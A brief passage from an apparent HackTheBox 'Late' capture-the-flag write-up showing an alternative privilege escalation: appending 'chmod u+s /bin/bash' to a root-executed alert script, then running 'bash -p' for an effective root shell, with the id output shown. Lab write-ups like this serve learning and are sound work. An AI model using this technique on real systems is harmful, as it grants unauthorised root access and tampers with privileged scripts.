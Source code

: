 Reading a writeup from [Shakugan](https://shakuganz.com/2022/07/07/hackthebox-late/), I realized that there was another interesting way to get the root shell which is to set `/bin/bash` to SUID.

```bash
svc_acc@late:~$ echo "chmod u+s /bin/bash" >> /usr/local/sbin/ssh-alert.sh 
svc_acc@late:~$ bash -p
bash-4.4# id
uid=1000(svc_acc) gid=1000(svc_acc) euid=0(root) groups=1000(svc_acc)
```

